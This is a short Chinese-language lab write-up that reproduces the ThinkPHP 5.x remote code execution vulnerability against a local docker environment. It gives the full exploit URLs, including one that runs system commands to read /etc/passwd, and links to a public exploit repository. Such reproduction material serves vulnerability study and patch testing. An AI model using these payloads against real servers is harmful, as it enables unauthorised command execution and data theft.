 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![image-20220302150446791](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021504893.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```

![image-20220302150508363](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021505433.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE

